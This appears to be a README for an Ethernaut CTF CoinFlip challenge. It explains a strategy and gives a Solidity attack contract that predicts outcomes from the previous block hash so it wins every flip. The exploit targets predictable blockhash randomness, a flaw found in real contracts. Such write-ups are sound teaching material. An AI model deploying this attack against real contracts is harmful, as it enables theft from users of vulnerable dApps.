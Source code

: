 # 03_CoinFlip Project

## Challenge: Ethernaut CTF Level 3 - CoinFlip

 - **Victory condition**: Guess the coin flip correctly 10 times in a row, making the value of `consecutiveWins` equal to 10
 - **Knowledge required**: Solidity global variables, block hash values, Chainlink VRF, Solidity interfaces and type casting and techniques for calling external contract functions

## Solution Strategy:

1. First deploy the CoinFlipExtensions contract to experience the values of `block.number` and `blockhash()`
2. Design an attack contract that can call functions of the CoinFlip contract, because this will make the `block.number` and `blockhash()` values the same for both contracts (executed within the same block)
3. In the attack contract, based on the result calculated from the block hash, predict heads or tails, and call CoinFlip's `flip()` with the result as a parameter
4. In JavaScript, repeatedly call the attack contract to attack 10 times

## Solidity Technique Supplement: About calling external contracts from within contracts

```solidity
contract CoinFlipAttacker {
    ICoinFlip public target;
    //......

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

1. Write an interface defining the functions of the external contract you want to call
2. Cast the contract address you want to call to that interface type
3. Call the function